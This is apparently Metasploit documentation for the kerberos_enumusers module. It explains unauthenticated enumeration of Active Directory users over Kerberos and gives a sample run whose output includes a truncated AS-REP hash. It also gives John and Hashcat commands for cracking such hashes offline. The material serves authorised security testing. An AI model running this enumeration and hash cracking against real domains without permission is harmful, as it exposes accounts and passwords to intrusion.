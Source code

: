 ## Vulnerable Application

The kerberos_enumusers module is used to enumerate valid Domain Users
via Kerberos from a wholly unauthenticated perspective. It utilises the
different responses returned by the service to identify users that exist
within the target domain. It is also able to identify whether user
accounts are enabled or disabled/locked out.

## Verification Steps

When verifying the module in the listed examples, it is recommended to test the following accounts:

- Valid account
- Invalid account
- Locked/Disabled account
- Account with spaces
- AS-REP Roastable accounts

## Target

To use kerberos_enumusers, make sure you are able to connect to the
Kerberos service on a Domain Controller.

## Scenarios

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user
accounts.

Create a new `./users.txt` file, then run the module:

```
msf auxiliary(gather/kerberos_enumusers) > run rhost=192.168.123.228 domain=domain.local user_file=./users.txt verbose=true
[*] Running module against 192.168.123.228

[*] Using domain: ADF3.LOCAL - 192.168.123.228:88...
[*] 192.168.123.228:88 - User: "missing123" user not found
[+] 192.168.123.228:88 - User: "administrator" is present
[+] 192.168.123.228:88 - User: "account with spaces" is present
[-] 192.168.123.228:88 - User: "locked_account" account disabled or locked out
[+] 192.168.123.228:88 - User: "no_pre_auth" does not require preauthentication. Hash: $krb5asrep$23$no_pre_auth@DOMAIN.LOCAL:bdb54b9e...etc..etc...
[+] 192.168.123.228:88 - User: "fake_mysql" is present
[*] 192.168.123.228:88 - User: "missing1234" user not found
[*] Auxiliary module execution completed
msf auxiliary(gather/kerberos_enumusers) > 
```

### ASREPRoasting

Accounts that have `Do not require Kerberos preauthentication` enabled, will receive an ASREP response with a ticket present.
The technique of cracking this token offline is called ASREPRoasting.

Cracking ASREP response with John:

```
john ./hashes.txt --wordlist=./wordlist.txt --format:krb5asrep
```

Cracking ASREP response with Hashcat:

```
hashcat -m 18200 -a 0 ./hashes.txt ./wordlist.txt
```

You can see previously creds with:

```
creds -v
```

## Options

The `kerberos_enumusers` module only requires the `RHOST`, `DOMAIN` and
`USER_FILE` options to run.

**The DOMAIN option**

This option is used to specify the target domain. If the domain name is
incorrect an error is returned and domain user account enumeration will fail.

An example of setting DOMAIN:

```
set DOMAIN [domain name]
```

**The USER_FILE option**

This option is used to specify the file containing a list of user names
to query the Domain Controller to identify if they exist in the target domain
or not. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The Timeout option**

This option is used to specify the TCP timeout i.e. the time to wait
before a connection to the Domain Controller is established and data read.

An example of setting Timeout:

```
set Timeout [value in seconds]
```

